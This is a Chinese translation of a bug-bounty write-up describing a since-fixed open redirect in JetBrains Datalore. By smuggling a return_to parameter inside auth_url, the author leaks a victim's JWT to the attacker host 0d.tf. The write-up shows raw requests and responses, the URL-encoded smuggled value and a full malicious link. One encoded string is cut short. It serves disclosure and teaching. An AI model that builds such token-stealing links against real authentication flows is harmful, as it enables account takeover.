 # 以眼还眼:不寻常的单击 JWT 代币接管

> 原文：<https://infosecwriteups.com/eye-for-an-eye-unusual-single-click-jwt-token-takeover-2e58f88cf44d?source=collection_archive---------1----------------------->

## 这个故事是关于我在 JetBrains Datalore 中发现的一个不寻常的开放重定向错误配置。

![](img/622fd9ad2aede764fbcfc4fb802d7b03.png)

## 描述

当我在一个 Datalore 端点中发现一个打开的重定向时，故事就开始了。端点与通过 JetBrains 帐户的身份验证相关。起初，这个重定向器看起来是无害的，但是，无论如何，我决定更仔细地看看认证过程是如何工作的。

```
**Request:**GET /jetbrains_auth?jwt={token}&return_to=**https://0d.tf/** HTTP/1.1
Host: datalore.jetbrains.com
Accept: text/html,application/xhtml+xml;q=0.9,*/*;q=0.8
Connection: close**Response:**HTTP/1.1 302
Date: Tue, 01 Jun 2021 19:50:54 GMT
Content-Length: 0
Connection: close
Set-Cookie: route={route}; Path=/; Secure; HttpOnly
Set-Cookie: DATALORESESSIONID={session-id}; Path=/; Secure; HttpOnly
Location: **https://0d.tf/**
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true
X-Content-Type-Options: nosniff
X-XSS-Protection: 1
```

我已经检查了使用 JWT 令牌发起重定向到数据仓库的端点，下面是该请求的样子:

```
**Request:**GET /jwt-auth/datalore?**auth_url=https%3A%2F%2Fdatalore.jetbrains.com%2Fjetbrains_auth**&return_to=https%3A%2F%2Fdatalore.jetbrains.com%2F HTTP/1.1
Host: http://account.jetbrains.com
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Connection: close**Response:**HTTP/1.1 302
Date: Tue, 01 Jun 2021 10:00:54 GMT
Content-Length: 0
Connection: close
Server: nginx
Cache-Control: no-store, no-cache, must-revalidate, max-age=0
Pragma: no-cache
Expires: -1
Location: **https://datalore.jetbrains.com/jetbrains_auth?jwt={jwt-token-here}&return_to=https%3A%2F%2Fdatalore.jetbrains.com%2F**
```

如您所见，它在`auth_url`查询参数中获取目标主机的地址。

以下是关于该参数的一些有趣事实:

*   该地址可以是 jetbrains.com 的任何子域
*   您可以在 URL 中提供路径和查询参数

我有了一个想法，将一个有效的 JWT 令牌作为`auth_url`参数的一部分，下面是接下来发生的事情:

```
**Request:**GET /jwt-auth/datalore?**auth_url=https%3A%2F%2Fdatalore.jetbrains.com%2Fjetbrains_auth?jwt={attacker's-jwt}**&return_to=https%3A%2F%2Fdatalore.jetbrains.com%2F HTTP/1.1
Host: http://account.jetbrains.com
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Connection: close**Response:**HTTP/1.1 302
Date: Tue, 01 Jun 2021 10:00:54 GMT
Content-Length: 0
Connection: close
Server: nginx
Cache-Control: no-store, no-cache, must-revalidate, max-age=0
Pragma: no-cache
Expires: -1
Location: **https://datalore.jetbrains.com/jetbrains_auth?jwt={attacker's-jwt-token}?jwt={victim's-jwt-token}&return_to=https%3A%2F%2Fdatalore.jetbrains.com%2F**
```

端点返回了一个位置标头，查询参数中包含两个 JWT 标记。第一个——由我作为`auth_url`的一部分提供，第二个来自 JetBrains 账户。

下一步，我试图将`return_to`参数作为`auth_url`的一部分。这个想法非常简单——它将允许我放置一个有效的 JWT 令牌作为第一个参数，并添加受害者的 JWT 作为走私的`return_to`参数的一部分。

```
**Attacker's host:** 
&return_to=https%3A%2F%2F0d.tf**Url encoded attacker's host:** %26%72%65%74%75%72%6e%5f%74%6f%3d%68%74%74%70%73%25%33%41%25%32%46%25%32%46%30%64%2e%74%
```

所以，最后的恶意链接看起来是这样的:

```
https://account.jetbrains.com/jwt-auth/datalore?auth_url=https://datalore.jetbrains.com/jetbrains_auth?**jwt={attacker's_jwt}%26%72%65%74%75%72%6e%5f%74%6f%3d%68%74%74%70%73%25%33%41%25%32%46%25%32%46%30%64%2e%74%66**&return_to=https%3A%2F%2Fdatalore.jetbrains.com%2F
```

如果有人打开链接，将会发生以下情况:

```
1\. 302 Redirect -> https://datalore.jetbrains.com/jetbrains_auth?jwt={attacker's-jwt}&return_to=**https%3A%2F%2F0d.tf?jwt={victim's-jwt}**&return_to=https%3A%2F%2Fdatalore.jetbrains.com%2F
2\. 302 Redirect -> **https://0d.tf?jwt={victim's-jwt}**&return_to=https%3A%2F%2Fdatalore.jetbrains.com%2F
3\. JWT TOKEN -> Application session
```

![](img/1fe73268086d70c25260f803ed60f540.png)

走私 JWT 代币和归还 URI 的例子。

![](img/5907f4a07034dd8489ae3c875098a2f7.png)

接管受害者的 JWT 令牌的例子。

## 影响

攻击者可以接管用户的 JWT 令牌，并获得对其 Datalore 帐户的访问权限。攻击的复杂性非常简单——攻击者需要创建一个带有有效 JWT 令牌的链接(以眼还眼),并诱骗受害者点击它。此外，从技术上讲，攻击者很容易创建一个脚本来自动化攻击过程。

## 减轻

Datalore 团队实施了返回 URL 验证，这使得不可能利用开放重定向漏洞。下一步，他们移除了遗留的身份验证过程，并使用 JetBrains 帐户作为身份提供者实现了 OAuth 集成(干得好！).

就是这样。我希望你喜欢这个。有什么问题吗？DM @ [saninyurii](https://twitter.com/SaninYurii)

这里还有一些故事:

*   [我如何在 YouTrack(CVE-2020–24618)中发现一个原始但严重的访问控制漏洞](https://bit.ly/3kl1C6E)
*   [CVE-2020–15823:JetBrains YouTrack 中的服务器端请求伪造(SSRF)](https://bit.ly/2VcPXOL)